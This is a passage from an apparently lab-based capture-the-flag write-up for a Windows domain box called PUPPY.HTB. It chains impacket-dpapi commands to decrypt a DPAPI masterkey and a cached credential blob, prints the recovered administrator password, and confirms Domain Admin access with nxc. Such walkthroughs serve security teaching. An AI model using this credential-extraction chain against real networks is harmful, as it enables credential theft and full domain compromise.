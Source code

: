 <p class="indent-paragraph">
The<code>masterkey blob</code> was decrypted using the cleartext password of the<code>steph.cooper</code> user alongside their SID. The resulting key was then used to decrypt the<code>credential blob</code><span class="codefix">.</span> This was executed in a single chained command:
</p>

<pre><code>~$ key=$(impacket-dpapi masterkey -f steph-masterkey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!' | grep 'Decrypted key:' | awk '{print $3}'); echo "\n[*] Decrypted MasterKey: $key\n"; impacket-dpapi credential -f steph-credential -key $key</code></pre>

<p class="indent-paragraph">
The decrypted output revealed a new set of credentials in plaintext:<code>steph.cooper_adm</code> with the password<code>FivethChipOnItsWay2025!</code><span class="codefix">.</span> This account appears to hold elevated privileges within the domain and will be leveraged in the next stage for privilege escalation or domain compromise.
</p>

```
[*] Decrypted MasterKey: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

### 🛡️ Domain Replication Attack with DRSUAPI


<p class="indent-paragraph">
It is worth noting that such credentials can be silently stored by the system when a privileged account is used via the Windows UAC prompt or through<code>runas /savecred</code><span class="codefix">.</span> In these scenarios, domain administrator credentials may be cached and protected with DPAPI under the standard user’s context. In this case, after extracting and decrypting the DPAPI blobs, we retrieved the plaintext credentials for<code>steph.cooper_adm</code><span class="codefix">.</span> To confirm the privilege level, we authenticated against the domain controller using<code>nxc</code><span class="codefix">,</span> and the<code>(Pwn3d!)</code> indicator verified that the account holds Domain Admin privileges—validating a complete domain compromise.
</p>

```
~$ nxc smb dc.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'  

SMB         dc.puppy.htb     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb     445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
```
